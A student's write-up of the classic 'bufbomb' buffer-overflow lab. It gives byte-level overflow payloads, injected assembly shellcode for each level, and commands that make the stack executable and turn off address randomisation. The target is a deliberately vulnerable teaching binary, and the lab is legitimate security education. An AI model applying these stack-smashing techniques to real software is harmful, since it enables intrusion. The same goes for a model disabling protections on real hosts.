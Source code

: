 # Lab 3
## level 0: Candle
Get address of smoke `08048e20 <smoke>:`.

There is 12 bytes of space for `char buf[12]`, and 4 bytes for `saved ebp`, so we need 16 bytes of padding before smoke address. 

`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08`

## level 1: Sparkler

In this level, we need to set the parameter of function `fizz(int val)`. 

The pattern should be:
`[16 byte padding to overflow]`+`[fizz addr]`+`[4 byte padding for return address]`+`[cookie]`

So we get:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 f1 0c 6f 46`

## level 2: Firecracker

Have to allow `execstack` for `bufbomb`.

```
execstack -s bufbomb
```

Look into assembly code. `bang()` reads `global_val` with `0x804a1dc`. And function address is `08048d60`.

We can use this code to attack.
```assembly
movl $0x466f0cf1,0x804a1dc      # global_value = cookie
push $0x08048d60                # return to bang
ret
```

We also need to know the address of this attacking code, lets put it at `buf[24]`. And the address would be `0xffffb554`

So out input is:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 54 b5 ff ff 00 00 00 00 c7 04 25 dc a1 04 08 f1 0c 6f 46 68 60 8d 04 08 c3`


Here we successfully attacked in `gdb` mode, but directly execute will cause a segmentation fault.

Need to disable randomization of the kernel. Then we can succeed in direct execution.
`sudo sysctl -w kernel.randomize_va_space=0`

## level 3: Dynamite

Should set return register to be cookie, and return with originally saved `%ebp`.

Attack with code:
```assembly
movl $0x466f0cf1,%eax          	# return register = cookie
push $0x08049019                # return to test
ret
```
Input pattern:
`[our code]` + `[originally saved $ebp]` + `address of buf[0]`

Input:
`b8 f1 0c 6f 46 68 1e 90 04 08 c3 00 68 b5 ff ff 3c b5 ff ff`
